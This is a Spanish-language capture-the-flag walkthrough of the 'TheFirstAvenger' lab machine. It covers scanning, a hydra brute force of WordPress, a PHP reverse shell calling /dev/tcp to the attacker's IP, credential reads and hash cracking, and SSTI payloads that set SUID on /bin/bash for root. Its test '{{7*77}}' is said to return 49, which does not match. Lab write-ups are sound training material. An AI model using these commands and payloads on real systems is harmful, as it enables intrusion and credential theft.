






Maquina "TheFirstAvenger" de [TheHackersLabs](https://thehackerslabs.com)

Autor: TTyler

Dificultad: Principiante



# RECONOCIMIENTO

En mi caso, la ip de la máquina victima es "192.168.161.32".

Comenzaremos haciendo un escaneo de nmap:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 192.168.161.32 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Oct 15 23:19:24 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 192.168.161.32
Nmap scan report for 192.168.161.32
Host is up, received arp-response (0.00081s latency).
Scanned at 2024-10-15 23:19:24 -03 for 10s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a1:96:4a:cb:4a:c2:76:f6:35:61:64:53:31:53:a5:5e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH28BbDxXnAVHtO0ZmDFo2nEtVMSR2bBvOCs/7cvuKru2GuUPyJCPiqDUJgY5PKQB45AH6KxcJxSa5895ibTFUE=
|   256 63:00:29:0f:1b:2b:58:7c:aa:6c:28:78:bf:ce:6e:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG1UU9F4rvdzxt1wdz2J3AzswqbUEYj2YbIYTm6HIyUD
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Bienvenido Cibervengador!
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 08:00:27:97:3C:1E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 15 23:19:34 2024 -- 1 IP address (1 host up) scanned in 10.24 seconds
```

Como vemos, los puertos abiertos son 2:

`22: OpenSSH 9.6p1`

`80: Apache httpd 2.4.58`

ninguna de estas versiones es vulnerable a algo que nos ayude, por lo que nos iremos directos a la web del puerto 80.

Esta web, parece ser bastante simple sin nada útil, y puedo decir esto por dos razones:

1. Es un archivo html

2. En el código fuente no hay nada interesante

Por lo que teniendo en cuenta esas dos razones, podemos ignorar completamente ese archivo.

Ahora haremos fuzzing con `gobuster` para ver si encontramos algo útil:

```css
gobuster dir -u http://192.168.161.32/ -w <Wordlist> -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.161.32/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 474]
/.html                (Status: 403) [Size: 279]
/wp1                  (Status: 301) [Size: 314] [--> http://192.168.161.32/wp1/]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
Progress: 286652 / 882240 (32.49%)
===============================================================
Finished
===============================================================
```

Al parecer tenemos un directorio llamado "wp1", el cual si accedemos desde la web veremos que es un wordpress. Sabiendo esto podemos ir a "wp-admin" para que nos muestre el panel de login.(Al hacerlo nos saldrá un host, "thefirstavenger.thl" el cual deberemos agregar a "/etc/hosts" en nuestra máquina)

Al probar las credenciales "admin:admin", me dice que la contraseña es incorrecta para ese usuario, esto significa que ese usuario existe por lo tanto es el que nos interesa. Ahora haremos fuerza bruta usando `hydra` a ese panel de login para ver si obtenemos credenciales válidas (para este ataque se puede usar `wpscan` pero no me funciona correctamente por lo que lo haré con hydra):

```css
hydra -l admin -P /opt/rockyou.txt thefirstavenger.thl http-post-form "/wp1/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Acceder&redirect_to=%2Fwp1%2Fwp-admin%2F&testcookie=1:S=302"
```



Como vemos, tenemos unas credenciales: admin:spongebob

# INTRUSIÓN

Para realizar la intrusion, haremos el proceso habitual con un wordpress (hay muchas maneras), que es instalar la extension "file manager" y luego crear un archivo php que podamos usar para ejecutar comandos.

Para instalar el plugin, debemos ir a la seccion "Añadir nuevo plugin" y en el buscador poner "file manager" e instalar el siguiente:



Una vez instalado y activado, nos aparecerá una nueva sección correspondiente al plugin, a la cual iremos. Estando ahí, veremos un administrador de archivos en el cual podremos crear nuestro php, para esto vamos en ese mismo plugin a "wp-content>uploads>2024", y ahí creamos un archivo con el nombre que queramos y con el siguiente contenido:

```php
<?php
system('bash -c "bash -i >& /dev/tcp/<NUESTRA IP>/<PUERTO DE ESCUCHA> 0>&1"');
?>
```

ahora solo nos queda escuchar con netcat en el puerto que elegimos (`nc -nlvp <puerto>`) y entrar al archivo desde el navegador, una vez hecho todo esto habremos ganado acceso a la máquina como "www-data".

# ESCALADA DE PRIVILEGIOS

#### www-data

Una vez dentro, haremos el tratamiento de la tty. [¿Como hacerlo?](https://github.com/Maciferna/DockerLabs/blob/main/tratamientoTTY.md)

Luego de buscar un rato, se me ocurre entrar al mysql usando las credenciales de wordpress, para obtenerlas solo leemos el archivo que está en su carpeta y se llama "wp-config.php". Las credenciales que obtenemos son las siguientes:

``mysql: wordpress:9pXYwXSnap`4pqpg~7TcM9bPVXY&~RM9i3nnex%r``

teniendo estas credenciales nos conectaremos en la misma máquina de la siguiente manera:

```css
mysql -u wordpress -p
```

y cuando se nos pida la contraseña ingresamos la obtenida.

Ya estando ahí, podemos listar las bases de datos con `show databases;`, una vez ejecutado veremos que hay una llamada "top_secret", por lo que nos cambiamos a esta usando el comando `use top_secret;`.

Ahora listaremos las tablas: `show tables;`

veremos una llamada "avengers", la cual si la leemos con `select*from avengers;` nos dirá lo siguiente:

```css
+----+--------------+------------+----------------------------------+
| id | name         | username   | password                         |
+----+--------------+------------+----------------------------------+
|  1 | Iron Man     | ironman    | cc20f43c8c24dbc0b2539489b113277a |
|  2 | Thor         | thor       | 077b2e2a02ddb89d4d25dd3b37255939 |
|  3 | Hulk         | hulk       | ae2498aaff4ba7890d54ab5c91e3ea60 |
|  4 | Black Widow  | blackwidow | 022e549d06ec8ddecb5d510b048f131d |
|  5 | Hawkeye      | hawkeye    | d74727c034739e29ad1242b643426bc3 |
|  6 | Steve Rogers | steve      | 723a44782520fcdfb57daa4eb2af4be5 |
+----+--------------+------------+----------------------------------+
6 rows in set (0.04 sec)
```

Teniendo en cuenta que hay un user llamado "steve" en esa base de datos y en el propio sistema, podemos intentar usarla para pivotar de usuario, pero al parecer es un hash por lo que antes lo sacaremos con [crackstation](https://crackstation.net/):



Tenemos la contraseña "thecaptain" para el usuario steve. (escalamos con `su steve` y su contraseña)

#### Steve

Siendo el usuario steve, no encontraremos nada interesante ni nada que nos ayude a escalar a root, pero si nos fijamos los puertos abiertos con `ss -tulun`, veremos que hay una web corriendo de manera local en el puerto `7092`. Sabiendo esto y dado que tenemos un ssh, nos conectaremos de la siguiente manera redirigiendo el puerto 7092 de la máquina victima a nuestro puerto 7092 local:

```css
ssh -L 9090:127.0.0.1:7092 steve@192.168.161.32
```

Ahora si vamos desde el navegador a "127.0.0.1:9090", veremos la web que estaba corriendo en ese puerto local de la máquina víctima:



Luego de estár probando algunas cosas, veo que estamos frente a un SSTI(server side template injection), ya que al poner en donde nos pide una dirección "{{7*77}}", nos cambia por "49", esto significa que podremos ejecutar comandos de manera remota usando lo siguiente:

```css
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

El cual si ejecutamos, nos devolverá esto:

```css
uid=0(root) gid=0(root) groups=0(root)
```

esto significa que la web y los comandos son ejecutados como root, por lo que en vez de id ejecutaremos lo siguiente:

```css
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('chmod u+s /bin/bash').read() }}
```

Mas info sobre SSTI:

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

[Curiosidades de Hackers](https://www.curiosidadesdehackers.com/2023/11/explotacion-de-server-side-template.html)

[HackTricks](https://book.hacktricks.xyz/es/pentesting-web/ssti-server-side-template-injection)

Una vez ejecutado, nos quedaría ir a la máquina victima y ejecutar `bash -p`, y ya seremos el usuario root y podremos leer las flags.



Gracias por leer....